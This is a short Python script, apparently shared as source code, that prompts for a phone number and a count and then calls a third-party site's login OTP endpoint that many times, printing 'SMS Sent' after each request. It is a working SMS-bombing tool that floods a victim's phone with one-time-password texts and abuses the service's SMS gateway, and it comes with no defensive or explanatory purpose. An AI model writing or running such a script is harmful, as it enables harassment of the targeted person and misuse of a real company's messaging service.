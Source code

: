 import requests

# GET

number=str(input("Enter Your Number:"))
api="https://stage.bioscopelive.com/en/login/send-otp?phone=88"+number+"&operator=bd-otp"

amount=int(input("Amount:"))
for i in range(amount):
	requests.get(api)
	print(str(i+1)+"SMS Sent ")
